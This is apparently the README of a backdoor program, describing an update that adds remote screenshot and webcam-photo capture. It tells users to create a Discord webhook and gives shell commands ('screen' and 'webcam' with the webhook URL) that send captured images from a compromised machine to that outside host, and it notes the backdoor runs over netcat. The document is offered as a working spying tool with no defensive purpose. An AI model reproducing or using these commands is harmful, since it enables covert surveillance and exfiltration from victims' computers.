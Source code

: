 THIS BACKDOOR WAS UPDATED ON 25-07-2022 / 01-12-2022

IN THIS UPDATE I REMOVED THE "server.py", I ADDED THE SCREENSHOT AND WEBCAM (only photo) FEATURE IN THE BACKDOOR ITSELF :)

Here u can see how to run the screenshot and webcam feature:-

1. Make a discord server.
2. Copy it's webhook url (see it on youtube, it's fucking easy)

NOW ASSUME THAT IT'S THE SHELL...

For Screenshot:
```SHELL
[*] >> screen https://discord.com/api/webhooks/your_webhook_url_that_u_copied
```
For Webcam:

[*] >> webcam https://discord.com/api/webhooks/your_webhook_url_that_u_copied


NOTE:- This is made for --> NCAT/NETCAT
